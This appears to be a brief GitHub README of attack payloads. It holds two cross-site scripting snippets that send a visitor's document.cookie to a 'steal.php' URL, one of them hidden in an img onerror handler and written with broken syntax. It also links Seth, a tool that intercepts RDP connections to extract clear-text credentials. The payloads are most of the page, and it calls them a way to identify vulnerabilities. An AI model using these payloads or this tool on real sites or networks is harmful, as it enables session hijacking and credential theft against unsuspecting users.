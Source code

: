 # payload

### Payload is helping for identify Vulneraability into System/Application.

* XSS Script for grabe cookie:
```javascript
<script>document.location="http://steal.php"</script>
```

```javascript
<img src=a onerror=confirm(document.location="http://steal.php?cookie=" + document.cookie;)>
```

* Seth
Seth is a tool written in Python and Bash to MitM RDP connections by attempting to downgrade the connection in order to extract clear text credentials.
https://github.com/SySS-Research/Seth
